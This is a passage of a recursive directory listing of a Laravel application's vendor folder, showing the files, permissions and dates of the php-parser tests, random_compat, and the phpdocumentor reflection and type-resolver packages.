drwxr-xr-x 7 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  841 Mar  5  2017 abstract.test
-rw-r--r-- 1 www-data www-data 5.1K Mar  5  2017 anonymous.test
-rw-r--r-- 1 www-data www-data  568 Mar  5  2017 conditional.test
-rw-r--r-- 1 www-data www-data 2.5K Mar  5  2017 constModifierErrors.test
-rw-r--r-- 1 www-data www-data 1.6K Mar  5  2017 constModifiers.test
-rw-r--r-- 1 www-data www-data  223 Mar  5  2017 final.test
-rw-r--r-- 1 www-data www-data 2.3K Mar  5  2017 implicitPublic.test
-rw-r--r-- 1 www-data www-data  671 Mar  5  2017 interface.test
-rw-r--r-- 1 www-data www-data 4.8K Mar  5  2017 modifier.test
-rw-r--r-- 1 www-data www-data 4.5K Mar  5  2017 name.test
-rw-r--r-- 1 www-data www-data 1.1K Mar  5  2017 php4Style.test
-rw-r--r-- 1 www-data www-data 4.1K Mar  5  2017 simple.test
-rw-r--r-- 1 www-data www-data 3.4K Mar  5  2017 staticMethod.test
-rw-r--r-- 1 www-data www-data 4.5K Mar  5  2017 trait.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/stmt/function:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Mar  5  2017 builtinTypeDeclarations.test
-rw-r--r-- 1 www-data www-data  753 Mar  5  2017 byRef.test
-rw-r--r-- 1 www-data www-data  583 Mar  5  2017 conditional.test
-rw-r--r-- 1 www-data www-data 3.9K Mar  5  2017 defaultValues.test
-rw-r--r-- 1 www-data www-data  989 Mar  5  2017 nullableTypes.test
-rw-r--r-- 1 www-data www-data  900 Mar  5  2017 returnTypes.test
-rw-r--r-- 1 www-data www-data 1.2K Mar  5  2017 specialVars.test
-rw-r--r-- 1 www-data www-data 1.1K Mar  5  2017 typeDeclarations.test
-rw-r--r-- 1 www-data www-data 2.4K Mar  5  2017 variadic.test
-rw-r--r-- 1 www-data www-data  564 Mar  5  2017 variadicDefaultValue.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/stmt/generator:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 7.7K Mar  5  2017 basic.test
-rw-r--r-- 1 www-data www-data 7.9K Mar  5  2017 yieldPrecedence.test
-rw-r--r-- 1 www-data www-data 1.1K Mar  5  2017 yieldUnaryPrecedence.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/stmt/loop:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  168 Mar  5  2017 do.test
-rw-r--r-- 1 www-data www-data 2.1K Mar  5  2017 for.test
-rw-r--r-- 1 www-data www-data 3.4K Mar  5  2017 foreach.test
-rw-r--r-- 1 www-data www-data  307 Mar  5  2017 while.test

/var/www/laravel/vendor/nikic/php-parser/test/code/parser/stmt/namespace:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 3.8K Mar  5  2017 alias.test
-rw-r--r-- 1 www-data www-data  714 Mar  5  2017 braced.test
-rw-r--r-- 1 www-data www-data 4.3K Mar  5  2017 groupUse.test
-rw-r--r-- 1 www-data www-data 2.2K Mar  5  2017 groupUseErrors.test
-rw-r--r-- 1 www-data www-data  616 Mar  5  2017 groupUsePositions.test
-rw-r--r-- 1 www-data www-data 1.7K Mar  5  2017 invalidName.test
-rw-r--r-- 1 www-data www-data 2.0K Mar  5  2017 mix.test
-rw-r--r-- 1 www-data www-data  648 Mar  5  2017 name.test
-rw-r--r-- 1 www-data www-data  533 Mar  5  2017 nested.test
-rw-r--r-- 1 www-data www-data  788 Mar  5  2017 notBraced.test
-rw-r--r-- 1 www-data www-data  319 Mar  5  2017 nsAfterHashbang.test
-rw-r--r-- 1 www-data www-data  878 Mar  5  2017 outsideStmt.test
-rw-r--r-- 1 www-data www-data 1.8K Mar  5  2017 outsideStmtInvalid.test

/var/www/laravel/vendor/nikic/php-parser/test/code/prettyPrinter:
total 32K
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  890 Mar  5  2017 comments.test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 expr
-rw-r--r-- 1 www-data www-data  433 Mar  5  2017 inlineHTMLandPHPtest.file-test
-rw-r--r-- 1 www-data www-data  150 Mar  5  2017 onlyInlineHTML.file-test
-rw-r--r-- 1 www-data www-data  140 Mar  5  2017 onlyPHP.file-test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 stmt

/var/www/laravel/vendor/nikic/php-parser/test/code/prettyPrinter/expr:
total 80K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  375 Mar  5  2017 anonymousClass.test
-rw-r--r-- 1 www-data www-data  246 Mar  5  2017 arrayDestructuring.test
-rw-r--r-- 1 www-data www-data  112 Mar  5  2017 call.test
-rw-r--r-- 1 www-data www-data  394 Mar  5  2017 closure.test
-rw-r--r-- 1 www-data www-data  142 Mar  5  2017 constant_deref.test
-rw-r--r-- 1 www-data www-data  495 Mar  5  2017 docStrings.test
-rw-r--r-- 1 www-data www-data   94 Mar  5  2017 include.test
-rw-r--r-- 1 www-data www-data  328 Mar  5  2017 intrinsics.test
-rw-r--r-- 1 www-data www-data  328 Mar  5  2017 list.test
-rw-r--r-- 1 www-data www-data 1.8K Mar  5  2017 literals.test
-rw-r--r-- 1 www-data www-data  210 Mar  5  2017 numbers.test
-rw-r--r-- 1 www-data www-data 1.4K Mar  5  2017 operators.test
-rw-r--r-- 1 www-data www-data 1.8K Mar  5  2017 parentheses.test
-rw-r--r-- 1 www-data www-data  129 Mar  5  2017 shortArraySyntax.test
-rw-r--r-- 1 www-data www-data  487 Mar  5  2017 stringEscaping.test
-rw-r--r-- 1 www-data www-data  288 Mar  5  2017 uvs.test
-rw-r--r-- 1 www-data www-data  813 Mar  5  2017 variables.test
-rw-r--r-- 1 www-data www-data  696 Mar  5  2017 yield.test

/var/www/laravel/vendor/nikic/php-parser/test/code/prettyPrinter/stmt:
total 100K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  313 Mar  5  2017 alias.test
-rw-r--r-- 1 www-data www-data  109 Mar  5  2017 break_continue.test
-rw-r--r-- 1 www-data www-data  759 Mar  5  2017 class.test
-rw-r--r-- 1 www-data www-data  311 Mar  5  2017 class_const.test
-rw-r--r-- 1 www-data www-data  172 Mar  5  2017 const.test
-rw-r--r-- 1 www-data www-data  188 Mar  5  2017 declare.test
-rw-r--r-- 1 www-data www-data   69 Mar  5  2017 do_while.test
-rw-r--r-- 1 www-data www-data  252 Mar  5  2017 for.test
-rw-r--r-- 1 www-data www-data  285 Mar  5  2017 foreach.test
-rw-r--r-- 1 www-data www-data  899 Mar  5  2017 function_signatures.test
-rw-r--r-- 1 www-data www-data  194 Mar  5  2017 global_static_variables.test
-rw-r--r-- 1 www-data www-data   65 Mar  5  2017 goto.test
-rw-r--r-- 1 www-data www-data  300 Mar  5  2017 groupUse.test
-rw-r--r-- 1 www-data www-data  219 Mar  5  2017 haltCompiler.file-test
-rw-r--r-- 1 www-data www-data  124 Mar  5  2017 if.test
-rw-r--r-- 1 www-data www-data  186 Mar  5  2017 multiCatch.test
-rw-r--r-- 1 www-data www-data  376 Mar  5  2017 namespaces.test
-rw-r--r-- 1 www-data www-data  163 Mar  5  2017 nullable_types.test
-rw-r--r-- 1 www-data www-data  656 Mar  5  2017 switch.test
-rw-r--r-- 1 www-data www-data   44 Mar  5  2017 throw.test
-rw-r--r-- 1 www-data www-data  337 Mar  5  2017 traitUse.test
-rw-r--r-- 1 www-data www-data  188 Mar  5  2017 tryCatch.test
-rw-r--r-- 1 www-data www-data   59 Mar  5  2017 while.test

/var/www/laravel/vendor/nikic/php-parser/test_old:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data  223 Mar  5  2017 run-php-src.sh
-rw-r--r-- 1 www-data www-data 6.2K Mar  5  2017 run.php

/var/www/laravel/vendor/paragonie:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 random_compat

/var/www/laravel/vendor/paragonie/random_compat:
total 40K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Mar 13  2017 LICENSE
-rwxr-xr-x 1 www-data www-data  134 Mar 13  2017 build-phar.sh
-rw-r--r-- 1 www-data www-data  897 Mar 13  2017 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 dist
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 lib
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 other
-rw-r--r-- 1 www-data www-data  231 Mar 13  2017 psalm-autoload.php
-rw-r--r-- 1 www-data www-data  387 Mar 13  2017 psalm.xml

/var/www/laravel/vendor/paragonie/random_compat/dist:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  215 Mar 13  2017 random_compat.phar.pubkey
-rw-r--r-- 1 www-data www-data  488 Mar 13  2017 random_compat.phar.pubkey.asc

/var/www/laravel/vendor/paragonie/random_compat/lib:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 5.9K Mar 13  2017 byte_safe_strings.php
-rw-r--r-- 1 www-data www-data 2.6K Mar 13  2017 cast_to_int.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 13  2017 error_polyfill.php
-rw-r--r-- 1 www-data www-data 7.6K Mar 13  2017 random.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 13  2017 random_bytes_com_dotnet.php
-rw-r--r-- 1 www-data www-data 5.4K Mar 13  2017 random_bytes_dev_urandom.php
-rw-r--r-- 1 www-data www-data 2.8K Mar 13  2017 random_bytes_libsodium.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 13  2017 random_bytes_libsodium_legacy.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 13  2017 random_bytes_mcrypt.php
-rw-r--r-- 1 www-data www-data 6.2K Mar 13  2017 random_int.php

/var/www/laravel/vendor/paragonie/random_compat/other:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Mar 13  2017 build_phar.php

/var/www/laravel/vendor/phpdocumentor:
total 20K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 reflection-common
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 reflection-docblock
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 type-resolver

/var/www/laravel/vendor/phpdocumentor/reflection-common:
total 72K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   30 Dec 27  2015 .gitignore
-rw-r--r-- 1 www-data www-data 1.1K Dec 27  2015 LICENSE
-rw-r--r-- 1 www-data www-data   19 Dec 27  2015 README.md
-rw-r--r-- 1 www-data www-data  731 Dec 27  2015 composer.json
-rw-r--r-- 1 www-data www-data  33K Dec 27  2015 composer.lock
-rw-r--r-- 1 www-data www-data  836 Dec 27  2015 phpunit.xml.dist
drwxr-xr-x 2 www-data www-data 4.0K Dec 27  2015 src
drwxr-xr-x 4 www-data www-data 4.0K Dec 27  2015 tests

/var/www/laravel/vendor/phpdocumentor/reflection-common/src:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Dec 27  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  561 Dec 27  2015 Element.php
-rw-r--r-- 1 www-data www-data  823 Dec 27  2015 File.php
-rw-r--r-- 1 www-data www-data 1.7K Dec 27  2015 Fqsen.php
-rw-r--r-- 1 www-data www-data 1.4K Dec 27  2015 Location.php
-rw-r--r-- 1 www-data www-data  533 Dec 27  2015 Project.php
-rw-r--r-- 1 www-data www-data  639 Dec 27  2015 ProjectFactory.php

/var/www/laravel/vendor/phpdocumentor/reflection-common/tests:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Dec 27  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Dec 27  2015 common
drwxr-xr-x 2 www-data www-data 4.0K Dec 27  2015 unit

/var/www/laravel/vendor/phpdocumentor/reflection-common/tests/common:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Dec 27  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Dec 27  2015 ..
-rw-r--r-- 1 www-data www-data  229 Dec 27  2015 bootstrap.php

/var/www/laravel/vendor/phpdocumentor/reflection-common/tests/unit:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Dec 27  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Dec 27  2015 ..
-rw-r--r-- 1 www-data www-data 2.3K Dec 27  2015 FqsenTest.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock:
total 92K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   13 Sep 30  2016 .gitignore
-rw-r--r-- 1 www-data www-data  818 Sep 30  2016 .scrutinizer.yml
-rw-r--r-- 1 www-data www-data  673 Sep 30  2016 .travis.yml
-rw-r--r-- 1 www-data www-data 1.1K Sep 30  2016 LICENSE
-rw-r--r-- 1 www-data www-data 2.4K Sep 30  2016 README.md
-rw-r--r-- 1 www-data www-data  859 Sep 30  2016 composer.json
-rw-r--r-- 1 www-data www-data  39K Sep 30  2016 composer.lock
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 examples
-rw-r--r-- 1 www-data www-data  845 Sep 30  2016 phpmd.xml.dist
-rw-r--r-- 1 www-data www-data  903 Sep 30  2016 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 src
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 tests

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/examples:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  893 Sep 30  2016 01-interpreting-a-simple-docblock.php
-rw-r--r-- 1 www-data www-data  629 Sep 30  2016 02-interpreting-tags.php
-rw-r--r-- 1 www-data www-data  744 Sep 30  2016 03-reconstituting-a-docblock.php
-rw-r--r-- 1 www-data www-data 5.9K Sep 30  2016 04-adding-your-own-tag.php
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 playing-with-descriptions

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/examples/playing-with-descriptions:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data 1.7K Sep 30  2016 02-escaping.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/src:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 DocBlock
-rw-r--r-- 1 www-data www-data 5.5K Sep 30  2016 DocBlock.php
-rw-r--r-- 1 www-data www-data 9.2K Sep 30  2016 DocBlockFactory.php
-rw-r--r-- 1 www-data www-data  545 Sep 30  2016 DocBlockFactoryInterface.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/src/DocBlock:
total 60K
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data 3.4K Sep 30  2016 Description.php
-rw-r--r-- 1 www-data www-data 6.9K Sep 30  2016 DescriptionFactory.php
-rw-r--r-- 1 www-data www-data 4.7K Sep 30  2016 ExampleFinder.php
-rw-r--r-- 1 www-data www-data 4.4K Sep 30  2016 Serializer.php
-rw-r--r-- 1 www-data www-data  12K Sep 30  2016 StandardTagFactory.php
-rw-r--r-- 1 www-data www-data  629 Sep 30  2016 Tag.php
-rw-r--r-- 1 www-data www-data 3.8K Sep 30  2016 TagFactory.php
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 Tags

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/src/DocBlock/Tags:
total 108K
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data 2.5K Sep 30  2016 Author.php
-rw-r--r-- 1 www-data www-data 1.2K Sep 30  2016 BaseTag.php
-rw-r--r-- 1 www-data www-data 2.1K Sep 30  2016 Covers.php
-rw-r--r-- 1 www-data www-data 2.7K Sep 30  2016 Deprecated.php
-rw-r--r-- 1 www-data www-data 4.1K Sep 30  2016 Example.php
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 Factory
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 Formatter
-rw-r--r-- 1 www-data www-data  675 Sep 30  2016 Formatter.php
-rw-r--r-- 1 www-data www-data 2.6K Sep 30  2016 Generic.php
-rw-r--r-- 1 www-data www-data 1.9K Sep 30  2016 Link.php
-rw-r--r-- 1 www-data www-data 6.7K Sep 30  2016 Method.php
-rw-r--r-- 1 www-data www-data 3.9K Sep 30  2016 Param.php
-rw-r--r-- 1 www-data www-data 3.3K Sep 30  2016 Property.php
-rw-r--r-- 1 www-data www-data 3.3K Sep 30  2016 PropertyRead.php
-rw-r--r-- 1 www-data www-data 3.3K Sep 30  2016 PropertyWrite.php
-rw-r--r-- 1 www-data www-data 1.9K Sep 30  2016 Return_.php
-rw-r--r-- 1 www-data www-data 2.1K Sep 30  2016 See.php
-rw-r--r-- 1 www-data www-data 2.5K Sep 30  2016 Since.php
-rw-r--r-- 1 www-data www-data 2.9K Sep 30  2016 Source.php
-rw-r--r-- 1 www-data www-data 1.9K Sep 30  2016 Throws.php
-rw-r--r-- 1 www-data www-data 2.1K Sep 30  2016 Uses.php
-rw-r--r-- 1 www-data www-data 3.3K Sep 30  2016 Var_.php
-rw-r--r-- 1 www-data www-data 2.5K Sep 30  2016 Version.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/src/DocBlock/Tags/Factory:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data  471 Sep 30  2016 StaticMethod.php
-rw-r--r-- 1 www-data www-data  460 Sep 30  2016 Strategy.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/src/DocBlock/Tags/Formatter:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data  805 Sep 30  2016 PassthroughFormatter.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/tests:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 integration
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 unit

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/tests/integration:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data 3.3K Sep 30  2016 InterpretingDocBlocksTest.php
-rw-r--r-- 1 www-data www-data  994 Sep 30  2016 ReconstitutingADocBlockTest.php
-rw-r--r-- 1 www-data www-data 1.3K Sep 30  2016 UsingTagsTest.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/tests/unit:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Sep 30  2016 ..
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 DocBlock
-rw-r--r-- 1 www-data www-data 9.2K Sep 30  2016 DocBlockFactoryTest.php
-rw-r--r-- 1 www-data www-data 6.8K Sep 30  2016 DocBlockTest.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/tests/unit/DocBlock:
total 48K
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data 5.8K Sep 30  2016 DescriptionFactoryTest.php
-rw-r--r-- 1 www-data www-data 2.5K Sep 30  2016 DescriptionTest.php
-rw-r--r-- 1 www-data www-data 5.5K Sep 30  2016 SerializerTest.php
-rw-r--r-- 1 www-data www-data  13K Sep 30  2016 StandardTagFactoryTest.php
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 Tags

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/tests/unit/DocBlock/Tags:
total 164K
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data 4.3K Sep 30  2016 AuthorTest.php
-rw-r--r-- 1 www-data www-data 5.2K Sep 30  2016 CoversTest.php
-rw-r--r-- 1 www-data www-data 5.5K Sep 30  2016 DeprecatedTest.php
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 Formatter
-rw-r--r-- 1 www-data www-data 4.8K Sep 30  2016 GenericTest.php
-rw-r--r-- 1 www-data www-data 5.4K Sep 30  2016 LinkTest.php
-rw-r--r-- 1 www-data www-data  14K Sep 30  2016 MethodTest.php
-rw-r--r-- 1 www-data www-data 7.4K Sep 30  2016 ParamTest.php
-rw-r--r-- 1 www-data www-data 6.6K Sep 30  2016 PropertyReadTest.php
-rw-r--r-- 1 www-data www-data 6.5K Sep 30  2016 PropertyTest.php
-rw-r--r-- 1 www-data www-data 6.7K Sep 30  2016 PropertyWriteTest.php
-rw-r--r-- 1 www-data www-data 5.4K Sep 30  2016 ReturnTest.php
-rw-r--r-- 1 www-data www-data 5.6K Sep 30  2016 SeeTest.php
-rw-r--r-- 1 www-data www-data 5.4K Sep 30  2016 SinceTest.php
-rw-r--r-- 1 www-data www-data 6.2K Sep 30  2016 SourceTest.php
-rw-r--r-- 1 www-data www-data 5.4K Sep 30  2016 ThrowsTest.php
-rw-r--r-- 1 www-data www-data 5.6K Sep 30  2016 UsesTest.php
-rw-r--r-- 1 www-data www-data 6.4K Sep 30  2016 VarTest.php
-rw-r--r-- 1 www-data www-data 5.4K Sep 30  2016 VersionTest.php

/var/www/laravel/vendor/phpdocumentor/reflection-docblock/tests/unit/DocBlock/Tags/Formatter:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Sep 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Sep 30  2016 ..
-rw-r--r-- 1 www-data www-data 1.3K Sep 30  2016 PassthroughFormatterTest.php

/var/www/laravel/vendor/phpdocumentor/type-resolver:
total 56K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   27 Nov 25  2016 .gitignore
-rw-r--r-- 1 www-data www-data  796 Nov 25  2016 .scrutinizer.yml
-rw-r--r-- 1 www-data www-data  677 Nov 25  2016 .travis.yml
-rw-r--r-- 1 www-data www-data 1.1K Nov 25  2016 LICENSE
-rw-r--r-- 1 www-data www-data 7.7K Nov 25  2016 README.md
-rw-r--r-- 1 www-data www-data  666 Nov 25  2016 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Nov 25  2016 examples
-rw-r--r-- 1 www-data www-data  845 Nov 25  2016 phpmd.xml.dist
-rw-r--r-- 1 www-data www-data  803 Nov 25  2016 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 src
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 tests

/var/www/laravel/vendor/phpdocumentor/type-resolver/examples:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Nov 25  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  338 Nov 25  2016 01-resolving-simple-types.php
-rw-r--r-- 1 www-data www-data  421 Nov 25  2016 02-resolving-classes.php
-rw-r--r-- 1 www-data www-data  591 Nov 25  2016 03-resolving-all-elements.php
-rw-r--r-- 1 www-data www-data 1.3K Nov 25  2016 04-discovering-the-context-using-class-reflection.php
-rw-r--r-- 1 www-data www-data 1.3K Nov 25  2016 05-discovering-the-context-using-method-reflection.php
-rw-r--r-- 1 www-data www-data  746 Nov 25  2016 06-discovering-the-context-using-file-contents.php
-rw-r--r-- 1 www-data www-data  198 Nov 25  2016 Classy.php

/var/www/laravel/vendor/phpdocumentor/type-resolver/src:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Nov 25  2016 FqsenResolver.php
-rw-r--r-- 1 www-data www-data  433 Nov 25  2016 Type.php
-rw-r--r-- 1 www-data www-data 8.7K Nov 25  2016 TypeResolver.php
drwxr-xr-x 2 www-data www-data 4.0K Nov 25  2016 Types

/var/www/laravel/vendor/phpdocumentor/type-resolver/src/Types:
total 84K
drwxr-xr-x 2 www-data www-data 4.0K Nov 25  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 ..
-rw-r--r-- 1 www-data www-data 2.1K Nov 25  2016 Array_.php
-rw-r--r-- 1 www-data www-data  708 Nov 25  2016 Boolean.php
-rw-r--r-- 1 www-data www-data  715 Nov 25  2016 Callable_.php
-rw-r--r-- 1 www-data www-data 2.1K Nov 25  2016 Compound.php
-rw-r--r-- 1 www-data www-data 2.9K Nov 25  2016 Context.php
-rw-r--r-- 1 www-data www-data 6.8K Nov 25  2016 ContextFactory.php
-rw-r--r-- 1 www-data www-data  701 Nov 25  2016 Float_.php
-rw-r--r-- 1 www-data www-data  654 Nov 25  2016 Integer.php
-rw-r--r-- 1 www-data www-data  719 Nov 25  2016 Mixed.php
-rw-r--r-- 1 www-data www-data  712 Nov 25  2016 Null_.php
-rw-r--r-- 1 www-data www-data 1.9K Nov 25  2016 Object_.php
-rw-r--r-- 1 www-data www-data  718 Nov 25  2016 Resource.php
-rw-r--r-- 1 www-data www-data  772 Nov 25  2016 Scalar.php
-rw-r--r-- 1 www-data www-data  796 Nov 25  2016 Self_.php
-rw-r--r-- 1 www-data www-data 1.1K Nov 25  2016 Static_.php
-rw-r--r-- 1 www-data www-data  713 Nov 25  2016 String_.php
-rw-r--r-- 1 www-data www-data  937 Nov 25  2016 This.php
-rw-r--r-- 1 www-data www-data  855 Nov 25  2016 Void_.php

/var/www/laravel/vendor/phpdocumentor/type-resolver/tests:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 unit

/var/www/laravel/vendor/phpdocumentor/type-resolver/tests/unit:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 ..
-rw-r--r-- 1 www-data www-data  14K Nov 25  2016 TypeResolverTest.php
drwxr-xr-x 2 www-data www-data 4.0K Nov 25  2016 Types

/var/www/laravel/vendor/phpdocumentor/type-resolver/tests/unit/Types:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Nov 25  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Nov 25  2016 ..
-rw-r--r-- 1 www-data www-data 5.7K Nov 25  2016 ContextFactoryTest.php
-rw-r--r-- 1 www-data www-data 1.6K Nov 25  2016 ContextTest.php

/var/www/laravel/vendor/phpspec:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 prophecy

/var/www/laravel/vendor/phpspec/prophecy:
total 72K
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 .
